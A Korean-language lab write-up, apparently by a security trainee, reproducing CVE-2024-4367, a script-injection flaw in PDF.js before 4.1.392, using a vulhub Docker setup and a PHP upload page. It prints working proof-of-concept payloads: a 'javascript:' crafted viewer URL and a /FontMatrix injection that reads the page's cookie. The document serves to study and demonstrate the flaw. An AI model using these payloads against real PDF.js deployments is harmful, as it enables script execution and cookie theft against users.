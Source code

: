 # CVE-2024-4367
| whs 3기 이유진

## 개요
PDF.js는 HTML5로 구축된 PDF(Portable Document Format) 뷰어입니다.

4.1.392 이전 PDF.js 버전에서 JavaScript 코드 삽입 취약점이 발견되었습니다. 이 취약점을 악용하여 공격자는 악성 PDF 파일을 여는 즉시 임의의 JavaScript 코드를 실행할 수 있습니다.

Mozilla에서 개발 및 관리하는 자바스크립트 기반의 pdf 뷰어인 PDF.js 라이브러리에 존재하는 XSS(크로스사이트 스크립팅) 취약점입니다.

정확히는 crafted URL(조작된 URL)을 통해 PDF.js 뷰어 안에서 임의의 스크립트를 실행할 수 있습니다.

## 환경 구축

### docker-compose.yml
```
version: '2'
services:
 web:
   image: vulhub/pdfjs:4.1.392
   volumes:
    - ./index.php:/var/www/html/index.php
   ports:
    - "8080:80"
```

### 테스트 환경 만들기
```
docker compose up -d
```

### 페이지 접속 하기
`http://your-ip:8080` 를 통해 페이지에 접속할 수 있다.
![page](./1.png)

### index.php
PDF 파일을 업로드 받고, 업로드가 완료되면 PDF.js 뷰어를 통해 업로드한 파일을 볼 수 있도록 리다이렉트 시키는 간단한 파일 업로드 페이지를 구현하였다.
```php
<?php
if (!empty($_FILES)):

// Check for errors
if($_FILES['file_upload']['error'] > 0){
    die('An error ocurred when uploading.');
}

// Check filesize
if(!is_uploaded_file($_FILES['file_upload']['tmp_name'])) {
    die('File is not uploaded file');
}

$ext = pathinfo($_FILES['file_upload']['name'], PATHINFO_EXTENSION);
if ($ext !== 'pdf') {
    die('Unsupported filetype uploaded.');
}

$new_name = uniqid() . '.pdf';
if(!move_uploaded_file($_FILES['file_upload']['tmp_name'], __DIR__ . '/upload/' . $new_name)){
    die('Error uploading file - check destination is writeable.');
}

header('Location: /web/viewer.html?file=../upload/' . $new_name, true, 302);
exit;
else:
?>
<form method="post" enctype="multipart/form-data">
    File: <input type="file" name="file_upload">
    <input type="submit">
</form>
<?php
endif;
```

- `header('Location: /web/viewer.html?file=../upload/' . $new_name, true, 302);` 부분을 통해 브라우저를 `/seb/viewer.html`로 리다이렉트한다.
- `enctype="multipart/form-data"` 설정을 통해 파일 업로드를 할 수 있도록 한다.
    - 파일 저장위치는 `upload/` 이고, `uniqid()`를 통해 고유 ID를 사용한다.

| PDF.js를 이용하여 PDF를 열람시켜주는 웹 서버이며, URL인코딩 등 검증이 미흡함. `viewer.html?file=` 파라미터를 통해 조작이 가능하며, 사용자가 공격자가 보낸 링크를 클릭하거나 악성 pdf를 열람할 수 있다.

## PoC

1. Crafted URL을 통한 XSS
```
http://your-ip:8080/web/viewer.html?file=javascript:alert(document.domain)
```
- file 파라미터에 `javascript:` 를 삽입하여 PDF.js가 이를 실행하도록 만들 수 있다. 
    - alert(document.domain) 실행

2. 악성 PDF 파일을 통한 XSS (poc.pdf)
```
/FontMatrix [0.1 0 0 0.1 0 (1\); \nalert('document.domain: '+window.document.domain+'\nlocation: '+window.location+'\ncookie: '+window.document.cookie)]
```
- `/FontMatrix` 에 자바스크립트 삽입
    - FontMatrix는 폰트의 변환 행렬을 지정하는 부분인데, 처음 앞부분은 정상적으로 삽입하여 정상적인 행렬 수치로 해석하게 한 후, 6번째 실수부분을 문자열을 삽입한다.
        - 파서가 숫자가 아니라 문자열로 해석하거나 구문오류를 무시하고 실행하는 경우 해당 부분이 실행되게 된다.
    - 텍스트 렌더링 과정에서 `/FontMatrix`를 파싱하여 삽입된 스크립트 실행 가능

즉, 원래 숫자만 와야 하는 /FontMatrix 마지막 자리에 JavaScript 코드를 몰래 심어 브라우저를 조종하는 기법이다.

![page](./2.png)
index.php 업로드 폼에 악성 pdf 삽입한 결과


## 출처
https://github.com/vulhub/vulhub/tree/master/pdfjs/CVE-2024-4367
https://hackyboiz.github.io/2024/05/22/pwndorei/2024-05-22/